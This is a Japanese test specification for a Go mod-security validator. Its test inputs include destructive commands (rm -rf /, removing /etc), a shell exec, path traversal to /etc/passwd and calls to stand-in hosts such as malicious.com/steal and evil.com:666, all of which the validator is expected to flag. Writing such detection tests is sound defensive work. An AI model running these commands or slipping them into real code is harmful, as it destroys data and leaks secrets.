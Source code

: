 # TASK-302: ModSecurityValidator TDDテストケース

## テストケース一覧

### 1. 静的解析テストケース

#### TC-SA-001: 危険なコマンド実行パターンの検出
```go
// テスト入力
code := `
    exec.Command("rm", "-rf", "/")
    os.RemoveAll("/etc")
    syscall.Exec("/bin/sh", []string{}, nil)
`
// 期待結果
- 3つのセキュリティ違反を検出
- 各違反のSeverityはCritical
- ViolationTypeはCommandInjection
```

#### TC-SA-002: パストラバーサル攻撃の検出
```go
// テスト入力
code := `
    file := "../../../etc/passwd"
    ioutil.ReadFile(file)
    os.Open("../../sensitive.dat")
`
// 期待結果
- 2つのセキュリティ違反を検出
- ViolationTypeはPathTraversal
- 修正提案を含む
```

#### TC-SA-003: 不正なネットワークアクセスの検出
```go
// テスト入力
code := `
    http.Get("http://malicious.com/steal")
    net.Dial("tcp", "evil.com:666")
    conn, _ := net.Listen("tcp", ":8080")
`
// 期待結果
- 3つのセキュリティ違反を検出
- ViolationTypeはUnauthorizedNetworkAccess
- 外部通信とリスナー開設を識別
```

#### TC-SA-004: 安全なコードの検証
```go
// テスト入力: 安全なMODコード
code := `
    entity := api.CreateEntity()
    component := NewHealthComponent(100)
    api.AddComponent(entity, component)
`
// 期待結果
- セキュリティ違反なし
- Safe = true
- RiskScore = 0
```
